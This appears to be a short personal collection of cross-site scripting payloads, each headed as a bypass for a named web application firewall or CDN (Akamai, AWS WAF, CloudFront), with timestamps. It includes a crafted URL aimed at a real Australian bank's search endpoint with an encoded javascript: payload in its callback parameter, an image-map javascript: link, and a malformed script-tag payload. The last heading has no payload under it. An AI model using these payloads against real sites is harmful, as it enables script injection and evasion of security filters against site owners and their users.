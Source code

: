 # 1.bypass akaimai 2023年2月4日 18:34:46
```
https://ols.nab.com.au/search/nabcq5sppublished/autocomplete/Pitt&Hunter%20Street.html?callback=jQuery21107995641278872101_1506921010507%3E%3Ca%2F%5Ctest%3D%22%2526quot%3Bx%2526quot%3B%22href%3D%27javascript%3A%2F*%25b1*%2F%3B(a%3dconsole,a.log(%2f1%2f))%27%3EClick&_=150692101051
```
# 2.image use map 2023年2月4日 18:36:54
```
<img src=1 usemap="#tm" width=99 height=99>
<map name="tm">
<area coords="0,0,99,99" href="javascript:alert(1)">
</map>
```
# 3.bypass aws waf 2023年2月4日 18:38:25
```
<!<script>alert(1)</script>
```
# 4. bypass CloudFront 2023年2月4日 18:39:32
